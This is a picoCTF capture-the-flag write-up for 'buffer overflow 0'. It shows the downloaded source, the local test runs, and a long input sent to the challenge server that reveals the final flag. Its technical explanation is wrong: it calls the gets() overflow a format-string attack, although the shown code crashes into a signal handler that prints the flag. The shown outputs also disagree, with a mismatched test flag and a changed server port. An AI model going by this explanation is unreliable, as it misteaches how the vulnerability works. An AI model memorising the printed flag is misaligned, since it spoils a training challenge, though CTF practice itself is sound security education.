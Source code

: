 # **Challenge:** buffer overflow 0


### **Category:** Binary Exploitation
### **Point Value:** 100
### **Author:** Alex Fulton / Palash Oswal
<br>

## **Description:**
Smash the stack<br> Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/525/vuln).[^1] [local](./vuln) You can view source [here](https://artifacts.picoctf.net/c/525/vuln.c).[^1] [local](./vuln.c) And connect with it using: nc saturn.picoctf.net 53182[^1]


# **Write-Up:**
Download all the things:
```bash
wget https://artifacts.picoctf.net/c/525/vuln
wget https://artifacts.picoctf.net/c/525/vuln.c
```
Lets start by runnin vuln and see what we get.  First we need to set the executible bit using chmod:
```bash
chmod +x vuln

└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```
Now create a flag.txt and restart 'vuln':
```bash
echo "picoCTF{testflag}" > flag.txt

└─$ ./vuln
Input: test
The program will exit now

```


We are prompted to input a value, and when doing so the program just seems to exit. So let's look at the [source code](./vuln.c) and see if we can figure out what's going on.  Looking at the main function we can see that it uses the 'gets()' function to obtain the user input.  This function is vulnerable to a [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack), so we should be able to get the program to output memory values by passing in the '%x' format string.

```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```  

Let's try it out and see what happens:
```bash
└─$ ./vuln
Input: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
picoCTF{test_flag}
```  

And as you can see passing in all of those %x format strings, the program prints out our test flag locally. Now lets try it on the supplied server.
```bash
└─$ nc saturn.picoctf.net 65445
Input: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
picoCTF{ov3rfl0ws_ar3nt_that_bad_6091cc95}
```
As you can see we get our flag for the challenge!
# **FLAG:**

picoCTF{ov3rfl0ws_ar3nt_that_bad_6091cc95}

#
[^1]: Included links to the source code may be out of date as they were what I recorded during the competition, and may be different now.